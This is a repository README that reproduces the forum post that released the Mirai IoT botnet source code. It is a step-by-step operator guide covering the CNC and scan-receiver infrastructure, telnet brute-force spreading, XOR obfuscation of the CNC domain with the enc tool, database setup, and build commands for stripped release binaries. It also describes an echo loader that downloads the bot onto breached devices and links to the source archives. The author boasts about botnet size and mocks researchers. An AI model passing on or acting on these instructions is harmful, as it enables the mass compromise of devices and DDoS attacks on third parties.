 # Mirai Botnet Client, Echo Loader and CNC source code

This is the source code released from [here](http://hackforums.net/showthread.php?tid=5420472) as discussed in this [Brian Krebs Post](https://krebsonsecurity.com/2016/10/source-code-for-iot-botnet-mirai-released/).

(Including forum post text.)
[FREE] World's Largest Net:Mirai Botnet, Client, Echo Loader, CNC source code release - Anna-senpai - 09-30-2016 11:50 AM

Preface
Greetz everybody,

When I first go in DDoS industry, I wasn't planning on staying in it long. I made my money, there's lots of eyes looking at IOT now, so it's time to GTFO. However, I know every skid and their mama, it's their wet dream to have something besides qbot.

So today, I have an amazing release for you. With Mirai, I usually pull max 380k bots from telnet alone. However, after the Kreb DDoS, ISPs been slowly shutting down and cleaning up their act. Today, max pull is about 300k bots, and dropping.

So, I am your senpai, and I will treat you real nice, my hf-chan.

And to everyone that thought they were doing anything by hitting my CNC, I had good laughs, this bot uses domain for CNC. It takes 60 seconds for all bots to reconnect, lol

Also, shoutout to this blog post by malwaremustdie
http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html
https://web.archive.org/web/20160930230210/http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html <- backup in case low quality reverse engineer unixfreaxjp decides to edit his posts lol
Had a lot of respect for you, thought you were good reverser, but you really just completely and totally failed in reversing this binary. "We still have better kung fu than you kiddos" don't make me laugh please, you made so many mistakes and even confused some different binaries with my. LOL

Let me give you some slaps back -
1) port 48101 is not for back connect, it is for control to prevent multiple instances of bot running together
2) /dev/watchdog and /dev/misc are not for "making the delay", it for preventing system from hanging. This one is low-hanging fruit, so sad that you are extremely dumb
3) You failed and thought FAKE_CNC_ADDR and FAKE_CNC_PORT was real CNC, lol "And doing the backdoor to connect via HTTP on 65.222.202.53". you got tripped up by signal flow ;) try harder skiddo
4) Your skeleton tool sucks ass, it thought the attack decoder was "sinden style", but it does not even use a text-based protocol? CNC and bot communicate over binary protocol
5) you say 'chroot("/") so predictable like torlus' but you don't understand, some others kill based on cwd. It shows how out-of-the-loop you are with real malware. Go back to skidland

5 slaps for you

Why are you writing reverse engineer tools? You cannot even correctly reverse in the first place. Please learn some skills first before trying to impress others. Your arrogance in declaring how you "beat me" with your dumb kung-fu statement made me laugh so hard while eating my SO had to pat me on the back.

Just as I forever be free, you will be doomed to mediocracy forever.


Requirements
Bare Minimum
2 servers: 1 for CNC + mysql, 1 for scan receiver, and 1+ for loading

Pro Setup (my setup)
2 VPS and 4 servers
- 1 VPS with extremely bulletproof host for database server
- 1 VPS, rootkitted, for scanReceiver and distributor
- 1 server for CNC (used like 2% CPU with 400k bots)
- 3x 10gbps NForce servers for loading (distributor distributes to 3 servers equally)


Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- TABLE_CNC_DOMAIN - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- TABLE_CNC_PORT - Port to connect to, its set to 23 already
- TABLE_SCAN_CB_DOMAIN - When finding bruted results, this domain it is reported to
- TABLE_SCAN_CB_PORT - Port to connect to for bruted results, it is set to 48101 already.

In ./mirai/tools you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
Code:
./build.sh debug telnet
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
Code:
./debug/enc string fuck.the.police.com

The output should look like this
Code:
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​

To update the TABLE_CNC_DOMAIN value for example, replace that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

[/code]
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
[/code]

Now that we know value from enc tool, we update it like this
Code:
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

Configuring CNC
Code:
apt-get install mysql-server mysql-client
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
Code:
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file ./mirai/cnc/main.go

Edit these values

Code:
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed


Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!
[Image: BVc7qJs.png]

2) http://santasbigcandycane.cx/loader.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!

How to build bot + CNC
In mirai folder, there is build.sh script.

Code:
./build.sh debug telnet
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to ./mirai/debug folder

Code:
./build.sh release telnet
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder


Building Echo Loader
Loader reads telnet entries from STDIN in following format:
Code:
ip:port user:pass
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget. You can find code to compile the tiny downloader stub h ere
http://santasbigcandycane.cx/dlr.src.zip

You need to edit your main.c for the dlr to include the HTTP server IP. The idea is, if the iot device doesn have tftp or wget, then it will echo load this 2kb binary, which download the real binary, since echo loading really slow.
When you compile, place your dlr.* files into the folder ./bins for the loader

Code:
./build.sh
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this

Code:
cat file.txt | ./loader

Remember to ulimit!

Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"
Contact GitHub API Training Shop Blog About
